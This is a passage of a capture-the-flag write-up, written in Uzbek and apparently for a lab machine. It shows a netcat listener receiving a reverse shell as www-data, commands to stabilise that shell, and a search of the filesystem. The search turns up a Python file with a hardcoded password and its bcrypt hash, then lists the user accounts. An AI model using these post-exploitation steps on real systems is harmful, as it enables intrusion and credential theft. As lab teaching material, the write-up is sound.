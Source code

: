 Oppa!
```
    nc -nvlp 4444
Connection from 10.201.41.130:46078
/bin/sh: 0: can't access tty; job control turned off
$ 
```

SHellni qulay xolatga keltiramiz.

```
script -qc /bin/bash /dev/null
```
```
export TERM=xterm
```

Odatiy bo'lmagan xolat:

```
www-data@ip-10-201-41-130:/$ ls
bin    etc	      lib	  mnt	 root	srv	 usr
boot   home	      lib64	  opt	 run	swap.img  var
cdrom  initrd.img      lost+found  proc   sbin	sys	 vmlinuz
dev    initrd.img.old  media	  proct  snap	tmp	 vmlinuz.old
www-data@ip-10-201-41-130:/$ ls /proct
pass
```

Tarkibi:

```
www-data@ip-10-201-41-130:/$ ls /proct/pass
bcrypt_encryption.py
```

bcrypt_encryption.py fayl tarkibi: 

```
www-data@ip-10-201-41-130:/proct/pass$ cat bcrypt_encryption.py
import bcrypt
import base64

passw = "wewillROCKYOU".encode('ascii')
b64str = base64.b64encode(passw)
hashAndSalt = bcrypt.hashpw(b64str, bcrypt.gensalt())
print(hashAndSalt)

#hashAndSalt = b'$2b$12$LJ3m4rzPGmuN1U/h0IO55.3h9WhI/A0Rcbchmvk10KWRMWe4me81e'
#bcrypt.checkpw()
```



Foydalanuvchilar ro'yxati:

```
www-data@ip-10-201-41-130:/home$ ls
adam  mason  ssm-user  ubuntu
```
